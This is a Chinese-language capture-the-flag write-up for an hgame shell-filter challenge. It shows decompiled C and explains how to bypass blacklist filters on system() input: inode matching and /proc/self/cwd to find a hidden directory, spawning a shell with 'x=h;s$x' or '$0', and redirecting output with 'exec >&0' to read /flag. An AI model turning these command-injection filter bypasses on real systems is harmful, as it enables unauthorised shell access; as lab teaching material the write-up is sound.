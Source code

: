 ### 分析代码

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s1; // [rsp+0h] [rbp-90h]
  char buf; // [rsp+40h] [rbp-50h]
  unsigned __int64 v6; // [rsp+88h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  init();
  memset(&buf, 0, 0x40uLL);
  getcwd(&buf, 0x40uLL);
  puts("where are you?");
  read_n(&s1, 64u);
  if ( strcmp(&s1, &buf) )
  {
    puts("nonono,not there");
    exit(0);
  }
  read_n(&s1, 20u);
  if ( check2(&s1) == -1 )
  {
    puts("oh,it's not good idea");
    exit(0);
  }
  close(1);
  close(2);
  system(&s1);
  return 0;
}
```

```c
unsigned __int64 init()
{
  int rand_pos; // [rsp+4h] [rbp-51Ch]
  int i; // [rsp+8h] [rbp-518h]
  int fd; // [rsp+Ch] [rbp-514h]
  int buf[52]; // [rsp+10h] [rbp-510h]
  char dir_list[1008]; // [rsp+E0h] [rbp-440h]
  char new_dir; // [rsp+4D0h] [rbp-50h]
  char command; // [rsp+4F0h] [rbp-30h]
  unsigned __int64 v8; // [rsp+518h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  setbuf(stdin, 0LL);
  setbuf(_bss_start, 0LL);
  fd = open("/dev/urandom", 0);
  rand_pos = 0;
  read(fd, &rand_pos, 1uLL);
  rand_pos %= 50;
  if ( fd < 0 )
    exit(-1);
  chdir("./tmp");
  for ( i = 0; i <= 49; ++i )
  {
    read(fd, &buf[i], 4uLL);
    snprintf(&dir_list[20 * i], 0x14uLL, "0x%x", buf[i]);
    mkdir(&dir_list[20 * i], 0x1EDu);
  }
  snprintf(&new_dir, 0x16uLL, "./%s", &dir_list[20 * rand_pos]);
  chdir(&new_dir);
  puts("find yourself");
  read_n(&command, 25u);
  if ( check1(&command) != -1 )
    system(&command);
  return __readfsqword(0x28u) ^ v8;
}
```

- 在/tmp/目录下创建50个文件夹，文件名随机，然后随机切换到一个文件夹中
- 一次执行`system(cmd1)`的机会，字符过滤规则为`check1`
- 随后，要输入正确的工作目录
- 又有一次执行`system(cmd2)`的机会，字符过滤规则为`check2`
- 但是这次执行`system`前关闭了`stdout`和`stderr`

### check1

 - 允许的字符：
	```c
    a b c d e f g h i j k l m n o p q r s t u v w x y z
    A B C D E F G H I J K L M N O P Q R S T U V W X Y Z
    /   -
   ```
 - 过滤的字符串
    ```c
    sh
    cat
    flag
    pwd
    export
    ```
    
- docker中能利用的命令不多，除了被过滤的`cat` 和`sh`之外，还有 `ls` 和`cd`

- `cd -`可以输出`OLD_PWD`，也就是`/`，但是并无有神马用处

- `ls`可以虽然可以输出当前路径下的文件名，但是题目中对比的是绝对路径

- 看了下`ls --help`，发现可以利用`ls -ali`，输出当前目录文件`.`的`inode`，记做`inodeX`好啦

- `inode`是唯一的，于是再开一个`shell`，`ls -alh /tmp`查看`/tmp/`下的所有文件名及`inode`

- 根据`inodeX`，即可找到正确的目录名

  ```shell
  # shell 1
  % nc 47.103.214.163 21000
  find yourself
  ls -ali
  total 8
  1968846 drwxr-xr-x   2 1000 1000 4096 Jan 27 12:50 .
  1968682 drwxrwxrwx 152    0    0 4096 Jan 27 12:50 ..
  where are you?
  ```

  ```shell
  # shell 2
  % nc 47.103.214.163 21000 | grep 1968846
  ls -ali /tmp
  1968846 drwxr-xr-x   2 1000 1000 4096 Jan 27 12:50 0x8eb79f31
  ```

  ```shell
  # shell 1
  % nc 47.103.214.163 21000
  find yourself
  ls -ali
  total 8
  1968846 drwxr-xr-x   2 1000 1000 4096 Jan 27 12:50 .
  1968682 drwxrwxrwx 152    0    0 4096 Jan 27 12:50 ..
  where are you?
  /tmp/0x8eb79f31
  ```

### check2

- 过滤的字符(串)

  ```c
  sh cat * & | > <
  ```

- 这个简单多了，字符串拼接即可绕过

  ```shell
  x=h;s$x
  ```


### close(1) and close(2)

- 关闭了`stdout`和`stderr`，即使`cat flag`也得不到输出`u_u`

- 于是，重定向，把`stdout`和`stderr`重定向到`stdin`

  ```shell
  cat /flag 1>&0
  ```

### fini

- 这题在`check1`卡了好久，第三天才想到`ls -i`，我太菜了。



## 官方解

- 本来是要考察`proc`的，还是要多学些东西的

- `check1` : `ls -l /proc/self/cwd` 

- `check2`: `$0` 

- 赶紧学习一波`/proc`

  ```
  % nc 47.103.214.163 21000
  find yourself
  ls -al /proc/self/
  total 0
  dr-xr-xr-x   9 1000 1000 0 Feb  1 09:44 .
  dr-xr-xr-x 121    0    0 0 Feb  1 09:42 ..
  dr-xr-xr-x   2 1000 1000 0 Feb  1 09:44 attr
  -rw-r--r--   1 1000 1000 0 Feb  1 09:44 autogroup
  -r--------   1 1000 1000 0 Feb  1 09:44 auxv
  -r--r--r--   1 1000 1000 0 Feb  1 09:44 cgroup
  --w-------   1 1000 1000 0 Feb  1 09:44 clear_refs
  -r--r--r--   1 1000 1000 0 Feb  1 09:44 cmdline
  -rw-r--r--   1 1000 1000 0 Feb  1 09:44 comm
  -rw-r--r--   1 1000 1000 0 Feb  1 09:44 coredump_filter
  -r--r--r--   1 1000 1000 0 Feb  1 09:44 cpuset
  lrwxrwxrwx   1 1000 1000 0 Feb  1 09:44 cwd -> /tmp/0xb3f14a49
  -r--------   1 1000 1000 0 Feb  1 09:44 environ
  lrwxrwxrwx   1 1000 1000 0 Feb  1 09:44 exe -> /bin/ls
  dr-x------   2 1000 1000 0 Feb  1 09:44 fd
  dr-x------   2 1000 1000 0 Feb  1 09:44 fdinfo
  -rw-r--r--   1 1000 1000 0 Feb  1 09:44 gid_map
  -r--------   1 1000 1000 0 Feb  1 09:44 io
  -r--r--r--   1 1000 1000 0 Feb  1 09:44 limits
  -rw-r--r--   1 1000 1000 0 Feb  1 09:44 loginuid
  dr-x------   2 1000 1000 0 Feb  1 09:44 map_files
  -r--r--r--   1 1000 1000 0 Feb  1 09:44 maps
  -rw-------   1 1000 1000 0 Feb  1 09:44 mem
  -r--r--r--   1 1000 1000 0 Feb  1 09:44 mountinfo
  -r--r--r--   1 1000 1000 0 Feb  1 09:44 mounts
  -r--------   1 1000 1000 0 Feb  1 09:44 mountstats
  dr-xr-xr-x   5 1000 1000 0 Feb  1 09:44 net
  dr-x--x--x   2 1000 1000 0 Feb  1 09:44 ns
  -r--r--r--   1 1000 1000 0 Feb  1 09:44 numa_maps
  -rw-r--r--   1 1000 1000 0 Feb  1 09:44 oom_adj
  -r--r--r--   1 1000 1000 0 Feb  1 09:44 oom_score
  -rw-r--r--   1 1000 1000 0 Feb  1 09:44 oom_score_adj
  -r--------   1 1000 1000 0 Feb  1 09:44 pagemap
  -r--------   1 1000 1000 0 Feb  1 09:44 patch_state
  -r--------   1 1000 1000 0 Feb  1 09:44 personality
  -rw-r--r--   1 1000 1000 0 Feb  1 09:44 projid_map
  lrwxrwxrwx   1 1000 1000 0 Feb  1 09:44 root -> /
  -rw-r--r--   1 1000 1000 0 Feb  1 09:44 sched
  -r--r--r--   1 1000 1000 0 Feb  1 09:44 schedstat
  -r--r--r--   1 1000 1000 0 Feb  1 09:44 sessionid
  -rw-r--r--   1 1000 1000 0 Feb  1 09:44 setgroups
  -r--r--r--   1 1000 1000 0 Feb  1 09:44 smaps
  -r--r--r--   1 1000 1000 0 Feb  1 09:44 smaps_rollup
  -r--------   1 1000 1000 0 Feb  1 09:44 stack
  -r--r--r--   1 1000 1000 0 Feb  1 09:44 stat
  -r--r--r--   1 1000 1000 0 Feb  1 09:44 statm
  -r--r--r--   1 1000 1000 0 Feb  1 09:44 status
  -r--------   1 1000 1000 0 Feb  1 09:44 syscall
  dr-xr-xr-x   3 1000 1000 0 Feb  1 09:44 task
  -r--r--r--   1 1000 1000 0 Feb  1 09:44 timers
  -rw-rw-rw-   1 1000 1000 0 Feb  1 09:44 timerslack_ns
  -rw-r--r--   1 1000 1000 0 Feb  1 09:44 uid_map
  -r--r--r--   1 1000 1000 0 Feb  1 09:44 wchan
  where are you?
  /tmp/0xb3f14a49
  $0
  exec >&0
  cat /flag
  hgame{You_4re_So_C1EV3R}
  ```

  